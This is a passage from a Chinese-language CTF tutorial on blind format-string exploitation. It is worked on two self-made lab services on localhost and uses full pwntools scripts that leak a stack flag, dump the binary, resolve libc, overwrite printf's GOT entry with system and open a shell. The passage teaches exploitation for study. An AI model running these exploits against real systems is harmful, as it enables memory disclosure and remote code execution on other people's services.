    createcontact('3333', '123456789', '300', payload)
    printcontact()
    sh.recvuntil('Description: ')
    sh.recvuntil('Description: ')
    ##gdb.attach(sh)
    print 'get shell'
    sh.recvuntil('>>> ')
    ##get shell
    sh.sendline('5')
    sh.interactive()

需要注意的是，这样并不能稳定得到shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

格式化字符串盲打
----------------

原理
~~~~

所谓格式化字符串盲打指的是只给出可交互的ip地址与端口，不给出对应的binary文件来让我们进行pwn，其实这个和BROP差不多，不过BROP利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行

-  确定程序的位数
-  确定漏洞位置
-  利用

由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

例子1-泄露栈
~~~~~~~~~~~~

源码和部署文件均放在了对应的文件夹fmt\_blind\_stack中。

确定程序位数
^^^^^^^^^^^^

我们随便输入了%p，程序回显如下信息

.. code:: shell

    ➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
    %p
    0x7ffd4799beb0
    G�flag is on the stack%                          

告诉我们flag在栈上，同时知道了该程序是64位的，而且应该有格式化字符串漏洞。

利用
^^^^

那我们就一点一点测试看看

.. code:: python

    from pwn import *
    context.log_level = 'error'


    def leak(payload):
        sh = remote('127.0.0.1', 9999)
        sh.sendline(payload)
        data = sh.recvuntil('\n', drop=True)
        if data.startswith('0x'):
            print p64(int(data, 16))
        sh.close()


    i = 1
    while 1:
        payload = '%{}$p'.format(i)
        leak(payload)
        i += 1

最后在输出中简单看了看，得到flag

.. code:: shell

    ////////
    ////////
    \x00\x00\x00\x00\x00\x00\x00\xff
    flag{thi
    s_is_fla
    g}\x00\x00\x00\x00\x00\x00
    \x00\x00\x00\x00\xfe\x7f\x00\x00

例子2-盲打劫持got
~~~~~~~~~~~~~~~~~

源码以及部署文件均已经在blind\_fmt\_got文件夹中。

确定程序位数
^^^^^^^^^^^^

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为64位。

.. code:: shell

    ➜  blind_fmt_got git:(master) ✗ nc localhost 9999
    %p
    0x7fff3b9774c0

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。

确定偏移
^^^^^^^^

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

.. code:: shell

    ➜  blind_fmt_got git:(master) ✗ nc localhost 9999
    aaaaaaaa%p%p%p%p%p%p%p%p%p
    aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025

据此，我们可以知道格式化字符串的起始地址偏移为6。

泄露binary
^^^^^^^^^^

由于程序是64位，所以我们从0x400000处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入\\\x00字符的，，不然没法泄露怎么玩，，除此之后，输出必然是\\\x00截断的，这是因为格式化字符串漏洞利用的输出函数均是\\\x00截断的。。所以我们可以利用如下的泄露代码。

.. code:: python

    ##coding=utf8
    from pwn import *

    ##context.log_level = 'debug'
    ip = "127.0.0.1"
    port = 9999


    def leak(addr):
        # leak addr for three times
        num = 0
        while num < 3:
            try:
                print 'leak addr: ' + hex(addr)
                sh = remote(ip, port)
                payload = '%00008$s' + 'STARTEND' + p64(addr)
                # 说明有\n，出现新的一行
                if '\x0a' in payload:
                    return None
                sh.sendline(payload)
                data = sh.recvuntil('STARTEND', drop=True)
                sh.close()
                return data
            except Exception:
                num += 1
                continue
        return None

    def getbinary():
        addr = 0x400000
        f = open('binary', 'w')
        while addr < 0x401000:
            data = leak(addr)
            if data is None:
                f.write('\xff')
                addr += 1
            elif len(data) == 0:
                f.write('\x00')
                addr += 1
            else:
                f.write(data)
                addr += len(data)
        f.close()
    getbinary()

需要注意的是，在payload中需要判断是否有\\\n出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

分析binary
^^^^^^^^^^

利用ida打开泄露的binary，改变程序基地址，然后简单看看，可以基本确定源程序main函数的地址

.. code:: asm

    seg000:00000000004005F6                 push    rbp
    seg000:00000000004005F7                 mov     rbp, rsp
    seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
    seg000:00000000004005FE
    seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
    seg000:00000000004005FE                 lea     rax, [rbp-80h]
    seg000:0000000000400602                 mov     edx, 80h ; '€'
    seg000:0000000000400607                 mov     rsi, rax
    seg000:000000000040060A                 mov     edi, 0
    seg000:000000000040060F                 mov     eax, 0
    seg000:0000000000400614                 call    sub_4004C0
    seg000:0000000000400619                 lea     rax, [rbp-80h]
    seg000:000000000040061D                 mov     rdi, rax
    seg000:0000000000400620                 mov     eax, 0
    seg000:0000000000400625                 call    sub_4004B0
    seg000:000000000040062A                 mov     rax, cs:601048h
    seg000:0000000000400631                 mov     rdi, rax
    seg000:0000000000400634                 call    near ptr unk_4004E0
    seg000:0000000000400639                 jmp     short loc_4005FE

可以基本确定的是sub\_4004C0为read函数，因为读入函数一共有三个参数的话，基本就是read了。此外，下面调用的sub\_4004B0应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个while
1的循环，一直在执行。

利用思路
^^^^^^^^

分析完上面的之后，我们可以确定如下基本思路

-  泄露printf函数的地址，
-  获取对应libc以及system函数地址
-  修改printf地址为system函数地址
-  读入/bin/sh;以便于获取shell

利用程序
^^^^^^^^

程序如下。

.. code:: python

    ##coding=utf8
    import math
    from pwn import *
    from LibcSearcher import LibcSearcher
    ##context.log_level = 'debug'
    context.arch = 'amd64'
    ip = "127.0.0.1"
    port = 9999


    def leak(addr):
        # leak addr for three times
        num = 0
        while num < 3:
            try:
                print 'leak addr: ' + hex(addr)
                sh = remote(ip, port)
                payload = '%00008$s' + 'STARTEND' + p64(addr)
                # 说明有\n，出现新的一行
                if '\x0a' in payload:
                    return None
                sh.sendline(payload)
                data = sh.recvuntil('STARTEND', drop=True)
                sh.close()
                return data
            except Exception:
                num += 1
                continue
        return None


    def getbinary():
        addr = 0x400000
        f = open('binary', 'w')
        while addr < 0x401000:
            data = leak(addr)
            if data is None:
                f.write('\xff')
                addr += 1
            elif len(data) == 0:
                f.write('\x00')
                addr += 1
            else:
                f.write(data)
                addr += len(data)
        f.close()


    ##getbinary()
    read_got = 0x601020
    printf_got = 0x601018
    sh = remote(ip, port)
    ## let the read get resolved
    sh.sendline('a')
    sh.recv()
    ## get printf addr
    payload = '%00008$s' + 'STARTEND' + p64(read_got)
    sh.sendline(payload)
    data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
    sh.recv()
    read_addr = u64(data)

    ## get system addr
    libc = LibcSearcher('read', read_addr)
    libc_base = read_addr - libc.dump('read')
    system_addr = libc_base + libc.dump('system')
    log.success('system addr: ' + hex(system_addr))
    log.success('read   addr: ' + hex(read_addr))
    ## modify printf_got
    payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
    ## get all the addr
    addr = payload[:32]
    payload = '%32d' + payload[32:]
    offset = (int)(math.ceil(len(payload) / 8.0) + 1)
    for i in range(6, 10):
        old = '%{}$'.format(i)
        new = '%{}$'.format(offset + i)
        payload = payload.replace(old, new)
    remainer = len(payload) % 8
    payload += (8 - remainer) * 'a'
    payload += addr
    sh.sendline(payload)
    sh.recv()

    ## get shell
    sh.sendline('/bin/sh;')
    sh.interactive()

这里需要注意的是这一段代码

.. code:: python

    ## modify printf_got
    payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
    ## get all the addr
    addr = payload[:32]
    payload = '%32d' + payload[32:]
    offset = (int)(math.ceil(len(payload) / 8.0) + 1)
    for i in range(6, 10):
        old = '%{}$'.format(i)
        new = '%{}$'.format(offset + i)
        payload = payload.replace(old, new)
    remainer = len(payload) % 8
    payload += (8 - remainer) * 'a'
    payload += addr
    sh.sendline(payload)
    sh.recv()

fmtstr\_payload直接得到的payload会将地址放在前面，而这个会导致printf的时候\\\x00'断（\ **关于这一问题，pwntools目前正在开发fmt\_payload的加强版，估计快开发出来了。**\ ）。所以我使用了一些技巧将它放在后面了。主要的思想是，将地址放在后面8字节对齐的地方，并对payload中的偏移进行修改。需要注意的是

.. code:: python

    offset = (int)(math.ceil(len(payload) / 8.0) + 1)

这一行给出了修改后的地址在格式化字符串中的偏移，之所以是这样在于无论如何修改，由于'%order$hn'中order多出来的字符都不会大于8。具体的可以自行推导。
